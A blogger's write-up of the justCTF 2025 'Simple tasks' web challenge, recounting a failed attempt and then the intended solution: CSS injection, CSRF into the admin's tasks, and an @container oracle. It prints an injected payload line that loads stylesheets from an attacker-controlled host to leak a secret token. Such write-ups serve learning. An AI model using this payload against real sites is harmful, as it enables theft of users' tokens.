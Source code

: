 ## justCTF 2025 writeup - Simple tasks

*disclaimer : i didnt solve this challenge*

#### Solution : [Click me](https://gist.github.com/terjanq/6c9e675595504cb03ec910a9ab96474d)

### My approach

The challenge was so simple yet so hard. I started off by just going through the code and also testing the web app. I never encountered a CSP(Content-security-policy) in my CTF journey. So this was new to me.
The webapp can,
+ Create Tasks
+ add task into task*s*
+ preview task

*Every endpoint* of the website is protected by CSP  
` Content-Security-Policy: script-src 'nonce-${nonce}'; style-src 'nonce-${nonce}'`

so any injection is impossible.. but the *preview page* had a diffrent CSP  
`Content-Security-Policy", script-src 'none'`

so XSS is not possible. But i can inject CSS stylesss.!   
I recently started learning about CSS injection and Cross site leaks.. Maybe i can solve the challengeee?!

The webapp also has a bot that visits any url i give but before doing so, the bot register as admin into app and posts *a token* into the task and then do the visiting.

In all the XS-leaks... i only ever seen stealing data from same page. (i.e) the CSS injected and the target data to be stolen has to be in the same page. But the bot posts it in different task (/task/preview/0/0) and whatever we post into the admin's tasks will be in different url (/tasks/preview/0/1).

This was the part where i got stuck and read many articles as possible and searched various writeups and resources. Also tried iframes and object tags which were stupid but hey... cybersec is already crazy.  Finally i tried bringing the flag into other task preview using \<link\> tag.  But i saw nothing. (atleast my stupid eyes didn't)

Thats all. I gave up and was eagerly waiting for the answers and when i looked at them, I was soo happy that i was indeed in the right path. But i lacked practical skills and knowledge and i need more experience.

---
### Intended approach
The vulnerability exists in how the tasks are padded in .ejs templete if the note has length greater than 500  

```
<table>
    <% tasks.forEach((task, idx)=> { %>
      <tr>
        <td class="delete">
          <form action="/tasks/delete/<%= idx %>">
            <button type="submit">X</button>
          </form>
        </td>
        <td class="view">
          <form action="/tasks/<%= idx %>" method="GET">
            <button type="submit">View Task</button>
          </form>
        </td>
        <td>
          <pre><% const preview=task.tasks.join(",\n"); %><%= preview.length>500? preview.slice(0, 500) + "..." : preview %></pre>
        </td>
      </tr>
      <% }) %>
  </table>
  ```
  
with this in mind, the solution tries to inject a CSS that gets parsed in such a way that makes the universal selector with variable `--x` have a part of the flag as value which can be bought into our task preview page  and HTML is parsed as CSS when linked as a stylesheet making it as an Oracle and send request if the exfiltrated css matches our guess using @container
  
 ```
 <link rel=stylesheet href=/tasks><link rel=stylesheet href=http://localhost:5000/css/justToken{>}aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{}*{--x:
 ```
The above is the line that the solution tries to inject into the admin's tasks above the token we were trying to steal using CSRF. After doing so. the /tasks looks like this

 ![](../Pictures/Screenshots/Screenshot from 2025-08-11 18-34-02.png)
 
 + ` <link rel=stylesheet href=/tasks>` This part makes the flag available in the preview page we control
 + `<link rel=stylesheet href=http://localhost:5000/css/justToken{>}` This part makes the exfiltration using @container (`localhost:5000` is attacker controlled)
 + `aaaa...` making the parsing adjustments
 + `{}` ig to close the previous css. 
 + `\*` universal selector
 + `--x:` custom variable
 
 
 as you can see the ejs parsed the CSS and the token together and in the preview we can see that the solution successfully exfiltrated the token via the injected custom variable `--x` 
 
 ![](../Pictures/Screenshots/Screenshot from 2025-08-11 18-42-12.png)  
   
Now this is used as an Oracle to exfiltrate the token and get the flag.

The exfiltration process is very tedious but fairly simple one. It uses the @container to have an if-else condition that sends a request to our webhook using background-url if our guess if correct. Very interesting. Do read it..  

I found this CTF as very interesting one. very good challenge. and i am so happy to get this close to the solution. This challenge was solved by only 1 team. Kudos to them.  
  
 This challenge made me go 	wtff	 and i thought why not share it.  
   
 Till next interesting challenges.. xOx